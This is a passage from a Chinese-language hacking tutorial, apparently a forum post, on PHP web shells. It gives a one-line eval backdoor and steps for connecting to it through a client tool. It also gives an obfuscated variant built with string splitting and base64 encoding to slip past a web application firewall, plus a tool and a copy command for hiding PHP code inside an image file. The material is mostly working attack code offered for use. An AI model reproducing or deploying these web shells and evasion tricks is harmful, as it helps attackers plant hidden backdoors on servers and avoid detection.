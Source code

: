 ```html
<?php @eval($_POST['v']);?>
```

在url地址框中输入http://127.0.0.1/shell.php 在连接密码框中输入v，点击保存  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2d0f7ecfca3df105fc7a99cd71cc5963e534da9a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2d0f7ecfca3df105fc7a99cd71cc5963e534da9a.png)  
连接成功后就能看到目标站点目录下的文件  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2fe82aab331f00d980103f8559df05fa280ff89c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2fe82aab331f00d980103f8559df05fa280ff89c.png)

简单的php过狗一句话：
------------

```html
$zk = "str_replace";
$ef = $zk("z", "", "zbazsze64_zdzeczodze");
     = str_replace("z", "", "zbazsze64_zdzeczodze")
     = "base64_decode"
$dva = $zk("p","","pcprpepaptpe_fpupnpcptpipopn");      
     = str_replace("p","","pcprpepaptpe_fpupnpcptpipopn")     
     = "create_function"
$zvm = $dva('', $ef($zk("le", "", $ojj.$mt.$hsa.$fnx)));     
     = create_function('', $ef($zk("le", "", $ojj.$mt.$hsa.$fnx)))   
     = create_function('', base64_decode(str_replace("le", "", $ojj.$mt.$hsa.$fnx)))     
     = create_function('', base64_decode(str_replace("le", "", QGV2YWwoJF9QT1NUWydpMGle5BeSleleddKTs=)))     
    = create_function('', base64_decode("QGV2YWwoJF9QT1NUWydpMG5BeSddKTs="))     
    = create_function('', "@eval($_POST['i0nAy']);")
```

原理就是：打乱字符；编码技术；拆分组合；创建，匹配。

图片木马的制作
-------

### 方法一（工具）：

把要制作的图片拖给edjpgcom.exe，然后开始制作  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-897ecf9b21b7a5ca8244e2203a3cebeb0dbcddc2.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-897ecf9b21b7a5ca8244e2203a3cebeb0dbcddc2.png)  
点击ok  
此时用txt的形式打开查看一下  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-83db8b23d6ed6e028c306fefc14aacf459700121.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-83db8b23d6ed6e028c306fefc14aacf459700121.png)

### 方法二：

```html
copy a.jpg/b + 1.php/a b.php
```
